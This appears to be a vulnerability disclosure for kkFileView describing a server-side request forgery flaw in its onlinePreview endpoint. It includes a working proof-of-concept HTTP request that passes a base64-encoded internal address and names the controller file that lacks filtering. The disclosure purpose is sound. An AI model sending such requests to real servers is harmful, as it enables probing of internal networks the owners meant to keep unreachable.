





# KkFileView has SSRF vulnerabilities


The server provides the function of obtaining data from other server applications without filtering or restricting addresses and protocols.

Set up the test environment as shown below

Set up kkFileView service on Server1 server and start HTTP service on port 90 of Server2 host

Server2 host Settings do not allow direct access from PC1 hosts



By accessing server1 `http://ip:prot/onlinPreview?url=`

The Intranet request address to be probed is base64 encoded and used as the URL parameter value for this request



**Related Request packets**

```
GET /onlinePreview?url=aHR0cDovLzE5Mi4xNjguMTcuMTUzOjkwL2luZGV4Lmh0bWw= HTTP/1.1
Host: 192.168.17.128:8012
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

The contents of the Server2 host can be detected in the response package



You can also see Server1 requesting it in Server2's Web services log




120/5000 
Check the `server\src\main\java\cn\keking\web\controller\OnlinePreviewController.java` 
OnlinePreview function in Java Here is not to the incoming base64 content filtering operation


